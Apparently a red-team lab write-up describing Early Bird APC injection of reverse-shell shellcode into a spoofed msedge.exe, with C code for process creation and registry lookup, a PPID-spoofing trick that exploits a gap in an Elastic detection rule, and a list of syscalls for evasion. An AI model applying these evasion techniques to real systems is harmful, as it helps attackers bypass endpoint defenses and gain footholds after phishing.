






# Early Bird - Edge case

## Intro
In a recent red team lab - [Vulnlab](https://www.vulnlab.com/main/red-team-labs) - I had the challenge to establish initial access via phishing. Basically, after compromising an IT department email account, I had to send a phishing email targeting another account which was expecting to receive the "HR Tool". The target machine is running Elastic EDR agent and the goal was to evade detection and gain a foothold.

My initial thoughts were to create a program that uses of the Early Bird technique to spawn a new instance of MS Edge and inject a reverse shell shellcode. The reason to pick Edge as the target process is because security products can easily detect anomalous network connections, for example, it would be very suspicious if `Notepad.exe` process starts sending HTTP/S packets every 30s.

## The current directory issue
I wanted to spawn an instance of MS Edge as close to the original as possible to avoid detection. Here is how a legitimate `msedge.exe` process looks like in Process Hacker:


When using `CreateProcessA` API or even the low-level `NtCreateUserProcess` we can specify the parameters and attributes for the process, such as the "Image file name", "Command line", even spoof the parent process. However, the one that was challenging to get it right was the "Current directory" since it contains the path containing the version of Edge. If we don’t specify anything and pass the `NULL` value, it will be populated with the current directory where the program was initiated:

*Note: I am also spoofing the parent process as you can see it is showing as child of `explorer.exe`.*

See below a snippet of the code for spawning `msedge.exe` without specifying the "Current directory":
```C
...<snip>...
if (!CreateProcessA(
		"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
		"\"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe\"",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT,
		NULL,
		NULL,   // Current directory value
		&SiEx.StartupInfo,
		&Pi)) {
		printf("[!] CreateProcessA failed with error : %d \n", GetLastError());
		return FALSE;
	}
...<snip>...
```

On the other hand, if we specify the wrong directory, it will fail and the program will likely crash.

## Fetching Edge version from the registry
To solve this issue we need to retrieve the Edge version installed in the target system, concatenate with the path `C:\Program Files (x86)\Microsoft\Edge\Application\` and pass as the value for the current directory when spawning an instance of `msedge.exe`.

There are a few ways to do that, I decided to fetch the registry.

We can find the Edge version installed under `HKEY_CURRENT_USER\Software\Microsoft\Edge\BLBeacon` registry, in the `version` key.

Building a POC to retrieve Edge version from the registry:
```C
#include <stdio.h>
#include <windows.h>

BOOL ReadEdgeVersionFromRegistry(OUT LPCSTR* ppPath) {
	LSTATUS status = NULL;
	DWORD dwBytesRead = 0;
	PBYTE pBytes = NULL;

	// MS Edge install registry location: Software\\Microsoft\\Edge\\BLBeacon
	char edgeReg[] = { 'S', 'o', 'f', 't', 'w', 'a', 'r', 'e', '\\', 'M', 'i', 'c', 'r', 'o', 's', 'o', 'f', 't', '\\', 'E', 'd', 'g', 'e', '\\', 'B', 'L', 'B', 'e', 'a', 'c', 'o', 'n', '\0' };

	// Key in registry containing the MS Edge version
	char edgeVersion[] = { 'v', 'e', 'r', 's', 'i', 'o', 'n', '\0' };

	// Fetching the version's size
	status = RegGetValueA(HKEY_CURRENT_USER, edgeReg, edgeVersion, RRF_RT_ANY, NULL, NULL, &dwBytesRead);
	if (ERROR_SUCCESS != status) {
		printf("[!] RegGetValueA Failed With Error : %d\n", status);
		return FALSE;
	}

	// Allocating heap that will store the version that will be read
	pBytes = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBytesRead);
	if (pBytes == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
		return FALSE;
	}

	// Reading the version from "edgeReg" key, from value "edgeVersion"
	status = RegGetValueA(HKEY_CURRENT_USER, edgeReg, edgeVersion, RRF_RT_ANY, NULL, pBytes, &dwBytesRead);
	if (ERROR_SUCCESS != status) {
		printf("[!] RegGetValueA Failed With Error : %d\n", status);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}
	printf("\t[i] Found Edge version: %s\n", pBytes);

	/* Concatenate the version with the base path C:\\Program Files(x86)\\Microsoft\\Edge\\Application\\ */
	char basePath[] = { 'C', ':', '\\', 'P', 'r', 'o', 'g', 'r', 'a', 'm', ' ', 'F', 'i', 'l', 'e', 's', ' ', '(', 'x', '8', '6', ')', '\\', 'M', 'i', 'c', 'r', 'o', 's', 'o', 'f', 't', '\\', 'E', 'd', 'g', 'e', '\\', 'A', 'p', 'p', 'l', 'i', 'c', 'a', 't', 'i', 'o', 'n', '\\', '\0' };
	size_t basePathLen = strlen(basePath);
	size_t versionLen = dwBytesRead - 1; // Exclude the null-terminator from the version length

	// Allocate memory for the complete path
	*ppPath = (LPCSTR)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, basePathLen + versionLen + 1);
	if (*ppPath == NULL) {
		printf("[!] HeapAlloc Failed With Error : %d\n", GetLastError());
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Copy the base path to ppPath
	if (strcpy_s((char*)*ppPath, basePathLen + versionLen + 1, basePath) != 0) {
		printf("[!] strcpy_s Failed\n");
		HeapFree(GetProcessHeap(), 0, *ppPath);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Concatenate the version at the end of ppPath
	if (strcat_s((char*)*ppPath, basePathLen + versionLen + 1, (const char*)pBytes) != 0) {
		printf("[!] strcat_s Failed\n");
		HeapFree(GetProcessHeap(), 0, *ppPath);
		HeapFree(GetProcessHeap(), 0, pBytes);
		return FALSE;
	}

	// Print the full concatenated path
	printf("\t[i] Edge full Path: %s\n", *ppPath);

	// Free the version buffer
	HeapFree(GetProcessHeap(), 0, pBytes);

	return TRUE;
}

int main() {

    printf("[i] Looking for MS Edge version in the registry\n");
    LPCSTR pEdgePath = NULL;
    if (!ReadEdgeVersionFromRegistry(&pEdgePath)) {
        printf("[-] Error retrieving Microsoft Edge path\n");
        return -1;
    }

    return 0;
}
```

Compile and run the code above, we can verify that it is working:


## Parent process spoofing rule bypass
When I thought I was done, Elastic was detecting the parent process spoofing. Luckily, we can have  a look at Elastic detection [rules for PPID spoofing on Github](https://github.com/elastic/protections-artifacts/blob/main/behavior/rules/defense_evasion_parent_process_pid_spoofing.toml#L91). That is when I saw this on [line 91](https://github.com/elastic/protections-artifacts/blob/7cab0ce93881cef1b1073c3946aac790a284f554/behavior/rules/defense_evasion_parent_process_pid_spoofing.toml#L91):


It seems that if `msedge.exe` has 2 or more arguments and parent is `sihost.exe` then we are good to go. I modified the "Command line" value and changed the parent process from `explorer.exe` to `sihost.exe`:


Looks exactly what we need to get that initial foothold in the red team lab.

!!!  
The full code for the POC above can be found [on my Github repo here](https://github.com/caueb/EarlyBird-EdgeCase).   
!!!

## Final adjustments
For my final code I replaced most of the Windows API calls with indirect syscalls using [HellsHall](https://github.com/Maldev-Academy/HellHall). 

Here is a list of the APIs to replace from the POC:

POC WinAPI | Syscall {.compact}  
--- | ---
OpenProcessToken | NtOpenProcessToken
OpenProcess | NtOpenProcess
CreateProcessA | NtCreateUserProcess
VirtualAllocEx | NtAllocateVirtualMemory
WriteProcessMemory | NtWriteVirtualMemory
VirtualProtectEx | NtProtectVirtualMemory
QueueUserAPC | NtQueueApcThread
ResumeThread | NtResumeThread
CloseHandle | NtClose

After doing these modifications I successfully got my initial foothold and a reverse shell running under `msedge.exe`.